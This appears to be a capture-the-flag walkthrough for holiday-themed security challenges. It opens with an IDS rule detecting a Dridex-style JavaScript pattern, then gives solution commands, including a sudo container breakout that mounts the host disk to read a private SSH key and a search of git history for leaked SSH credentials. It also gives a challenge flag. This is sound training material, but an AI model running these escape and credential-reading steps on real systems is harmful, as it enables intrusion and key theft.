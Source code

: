 ```
alert http $HOME_NET any <> any any (msg:"Suspicious JavaScript function, possible Dridex infection"; http.response_body; content:"let byteCharacters = atob"; sid:68768692; rev:1;)
```

# Elfen Ring

## Git clone repo:

[![Git Clone repo](https://img.youtube.com/vi/RFzxlTjORLM/hqdefault.jpg)](https://www.youtube.com/watch?v=RFzxlTjORLM)


- change to `git clone https://haugfactory.com/asnowball/aws_scripts.git`

```    
cd aws_scripts && cat README.md
    
runtoanswer maintainers
```

## Prison Escape:

[![Prison Escape](https://img.youtube.com/vi/1lRJ9WPdf-c/hqdefault.jpg)](https://www.youtube.com/watch?v=1lRJ9WPdf-c)


- samways can sudo to root

```    
sudo -s
cd /mnt && mkdir breakout
mount /dev/vda breakout
cd /breakout/home/jailer/.ssh
cat jail.key.priv
```
#### Flag: `one step closer 082bb339ec19de4935867`

## Jolly CI/CD:

[![Jolly CI/CD](https://img.youtube.com/vi/-TswxT9PhMY/hqdefault.jpg)](https://www.youtube.com/watch?v=-TswxT9PhMY)


```    
mkdir web shell
cd web && git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
cd wordpress.flag.internal
git log
```
- look for **"whoops"** in comments

```
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
ls -lah
```
- reveals that a **.ssh** was accidentally included in the push and subsequently removed
